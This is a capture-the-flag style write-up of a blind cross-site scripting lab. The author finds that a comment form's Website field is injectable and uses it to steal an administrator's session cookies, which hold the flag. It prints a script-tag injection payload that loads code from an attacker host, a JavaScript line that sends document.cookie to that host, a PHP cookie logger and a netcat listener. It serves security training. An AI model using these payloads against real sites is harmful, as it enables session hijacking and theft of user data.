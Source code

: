 ## Cross-Site Scripting (XSS) - Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Cross-Site Scripting (XSS) vulnerabilities within the `/assessment` directory of the target application, and to extract sensitive information by leveraging the discovered weakness.


### Reconnaissance

Upon accessing the `/assessment` directory, I was presented with a page that included a **comment submission form**.  

The form contained the following input fields:
- **Comment**
- **Name**
- **Email**
- **Website**

Additionally, there was an option to save user details for later use.

![](screenshots/1.png)


### Initial Testing

I first submitted a benign comment to observe the behavior of the form. The application responded with:

![](screenshots/2.png)

This indicated that while the input was accepted, it would not be displayed to us directly. Instead, the submitted content was likely stored and later rendered on an **administrator-only page**.  

As a result, any XSS payloads would not execute in our own session, but could potentially trigger when viewed by a privileged user (e.g., a moderator).  

Based on this behavior, I focused on testing **Blind XSS**.


### Blind XSS Discovery

Next, I attempted a **Blind XSS attack** by setting up a listener:

```bash
sudo nc -lvnp 80 -s <attacker_ip>
```

I injected payloads using the template `test<script src="http://<attacker_ip>/<field_name>"></script>` into multiple form fields:

![](screenshots/3.png)

The listener confirmed that the **Website** field was vulnerable when the application attempted to load the external resource:

![](screenshots/4.png)


### Exploitation

To exfiltrate cookies from the vulnerable application, I created the following files on my server: `index.php` (to log the cookies) and `script.js` (to trigger exfiltration):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```javascript
new Image().src='http://<attacker_ip>/index.php?c='+document.cookie;
```

I then hosted these files using PHP’s built-in server, as Netcat was unable to correctly process the incoming HTTP requests:

```bash
sudo php -S <attacker_ip>:80
```

Finally, I injected the following payload into the Website field to trigger the exploit:

```
test<script src="http://<attacker_ip>/script.js"></script>
```


### Results

The victim browser executed my payload, requested `script.js`, and subsequently sent the cookies to `index.php`, which saved them to `cookies.txt`:

![](screenshots/5.png)


## Conclusion

The Website field of the comment submission form was vulnerable to Blind XSS. By leveraging this issue, I successfully executed arbitrary JavaScript on the victim browser and exfiltrated session cookies, including the assessment flag.

This confirms the presence of a critical XSS vulnerability that could allow attackers to steal sensitive user data and compromise accounts.


### Key Takeaways

- No visible execution occurred for Stored, Reflected, or DOM-based XSS payloads  
- Blind XSS successfully triggered via the **Website** field  
- External script execution enabled cookie exfiltration  
- Captured session data revealed the assessment flag




